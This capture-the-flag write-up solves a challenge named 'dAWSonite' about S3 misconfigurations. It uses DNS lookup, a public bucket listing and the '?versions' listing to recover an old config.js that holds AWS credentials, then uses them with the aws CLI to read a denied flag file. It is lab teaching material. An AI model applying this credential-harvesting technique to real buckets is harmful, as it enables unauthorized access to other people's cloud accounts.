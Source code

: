 # Solution

This challenge demonstrates some common misconfigurations in AWS infrastructure. Hence the name of the challenge - "dAWSonite".

One can start from checking the source code of the website. Here we can find link to [http://dawsonite.oioki.me/config.js] which does not contain anything interesting though.

Then, let's check DNS entry for the website:

```
$ dig dawsonite.oioki.me +short
dawsonite.oioki.me.s3-website-us-east-1.amazonaws.com.
s3-website-us-east-1.amazonaws.com.
52.216.112.218
```

So the website is hosted on S3. We can see a listing of the S3 bucket at [http://dawsonite.oioki.me.s3.amazonaws.com/]

```
config.js
error.html
flag.txt
index.html
```

The flag is at `/flag.txt`. However, the access is denied.

What is more interesting, is another listing, showing different versions of files: [http://dawsonite.oioki.me.s3.amazonaws.com/?versions]

```
...
<Version>
    <Key>config.js</Key>
    <VersionId>YGjtHwDPwQpAAwgGVwx6JRiVQE97wBDs</VersionId>
    <IsLatest>true</IsLatest>
    ...
</Version>
<Version>
    <Key>config.js</Key>
    <VersionId>H.RrWlKt7gvdyyIWHuRGgS7GP2LF0p8P</VersionId>
    <IsLatest>false</IsLatest>
    ...
</Version>
...
```

So, we still have old version of config.js hosted on S3. Let's get its content via [https://s3.amazonaws.com/dawsonite.oioki.me/config.js?versionId=H.RrWlKt7gvdyyIWHuRGgS7GP2LF0p8P]

It contains AWS credentials. We put them to `~/.aws/credentials` and try to get the flag again:

```
$ aws --profile dawsonite-reader s3 cp s3://dawsonite.oioki.me/flag.txt -
flag{XXXXX}
```
